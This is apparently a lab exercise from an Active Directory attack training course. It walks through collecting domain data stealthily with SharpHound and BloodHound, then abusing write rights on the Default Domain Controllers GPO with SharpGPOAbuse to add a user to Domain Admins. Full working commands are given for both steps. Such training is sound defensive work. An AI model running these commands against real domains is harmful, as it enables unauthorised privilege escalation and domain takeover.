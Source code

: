 # Exercise 7 - ACL-based attacks

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Bloodhound: [https://github.com/BloodHoundAD](https://github.com/BloodHoundAD)

## Exercise

This exercise is split in two parts. Part one covers the use of Bloodhound to collect and analyze data from Active Directory. Part two demonstrates an ACL-based attack on Group Policies.

### Part 1 - Bloodhound Exercise

First load "Sharphound", which is the data collection tool for Bloodhoud.

```
cd C:\attacker-tools
cat -raw .\SharpHound.ps1 | iex
```

Run sharphound to gather data on the domain.

```
Invoke-Bloodhound -CollectionMethod DcOnly -Stealth -PrettyJson -NoSaveCache
```

 - **-CollectionMethod DcOnly** means only collect data from the domain controller. This is preferable from an opsec-perspective since we blend in with existing traffic.
 - **-Stealth** means run single-threaded. Slower but also less noisy.
 - **-PrettyJson** means format the .json-files in a way that you can read them.
 - **-NoSaveCache** means do not save a cache file. Therefore everytime you run Sharphound it will start fresh from the beginning. Useful for demo purposes.

You shoud now see a ZIP file in your working directory called "TIMESTAMP_Bloodhound.zip". This ZIP contains the information gathered by Sharphound and can be ingested into Bloodhound. To get Bloodhound started we have to

1. Unzip "attacker-tools\BloodHound-win32-x64.zip".
2. After that, run "attacker-tools\BloodHound-win32-x64\BloodHound-win32-x64\BloodHound.exe". Log in with the user "neo4j" and the password you choose during Lab setup.
3. Ingest the ZIP file into bloodhound by just drag-and-drop it into the empty space in the center of the UI.

Thats it. Now you can start your analysis by experimenting with the "Pre-Built Analytics Queries" in the "Analysis" tab.

#### Questions

- Mark the user "taskservice" as owned. Find an attack path that will allows us to take control of the domain controller using the user taskservice.
- We got control over taskservice through kerberoasting but Bloodhound also shows you a different attack path. Which other user can manipulate the user taskservice? `Hint:` we got control over that user in the NTLM exercise
- **Bonus Question:** find a way to exploit the attack path you just found and try to execute it in the lab environment.

### Part 2 - GPO Exercise

The previous exercise revealed that the user "taskservice" has write permissions on "Default Domain Controllers" group policy. We'll use this to get us domain admin rights.

First, start powershell as user "taskservice". Since we know the password by now, we can just use run-as. Then go on with the steps below in this new powershell window.

```
cd C:\attacker-tools
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author contoso\adminuser --Command "cmd.exe" --Arguments '/c net group \"Domain Admins\" john /ADD' --GPOName "Default Domain Controllers Policy" --force
```

In a real environment, we would have to wait until the gpo is reprocessed by the DC. To speed this up, run gpupdate on the DC.

```
gpupdate /force
```

Verify that it worked by checking johns group memberships (using powerview again).

```
Get-DomainUser john | select memberof
```

**Woohoo - you finally made it to Domain Admin. Now grab yourself a beverage of your choice :-)**
